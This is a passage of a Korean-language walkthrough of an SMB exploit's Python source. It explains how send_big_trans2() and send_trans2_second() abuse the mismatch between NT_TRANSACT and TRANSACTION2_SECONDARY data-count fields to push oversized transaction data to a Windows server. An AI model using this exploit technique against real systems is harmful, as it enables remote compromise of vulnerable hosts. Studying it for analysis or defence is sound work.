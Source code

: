 오류가 발생하지 않으며, 서버는 마지막으로 전송된 `SMB_COM_TRANSACTION2_SECONDARY`로 transaction을 처리한다.

문제는, `SMB_COM_TRANSACTION2`의 TotalDataCount Field는 USHORT로 최대 0xffff 크기의 데이터를 전송가능한데, `SMB_COM_NT_TRANSACT`의 TotalDataCount는 ULONG으로 그보다 더 큰 데이터도 전송가능하다.

이러한 취약점을 이용하여 본 함수에서는 큰 데이터를 전송한다.

    pkt = smb.NewSMBPacket()
    pkt['Tid'] = tid

먼저 전송할 패킷 오브젝트를 생성하고,

    transCommand = smb.SMBCommand(smb.SMB.SMB_COM_NT_TRANSACT)

패킷의 command를 지정한다.  이 때, 큰 데이터를 전송하기 위하여 `SMB_COM_NT_TRANSACT`로 지정한다.

그후 필요한 파라미터들을 적절히 추가한 뒤,

    pkt.addCommand(transCommand)

    conn.sendSMB(pkt)
    conn.recvSMB() # must be success

패킷을 전송한다.

    # Then, use SMB_COM_TRANSACTION2_SECONDARY for send more data
    i = firstDataFragmentSize
    while i < len(data):
      # limit data to 4096 bytes per SMB message because this size can be used for all Windows version
      sendSize = min(4096, len(data) - i)
      if len(data) - i <= 4096:
        if not sendLastChunk:
          break
      send_trans2_second(conn, tid, data[i:i+sendSize], i)
      i += sendSize

    if sendLastChunk:
      conn.recvSMB()
    return i

다음으로, `send_trans2_second()`함수를 통해 `SECONDARY` command를 사용한 패킷 전송을 시작한다.


## 3. send_trans2_second()

위 함수에서는 `send_big_trans2()`와 유사하게 패킷을 구성하여 전송하며,

    transCommand = smb.SMBCommand(smb.SMB.SMB_COM_TRANSACTION2_SECONDARY)

차이는 SMB command로 `SMB_COM_TRANSACTION2_SECONDARY`를 사용한다는 점이다.


## 4. Back To exploit()
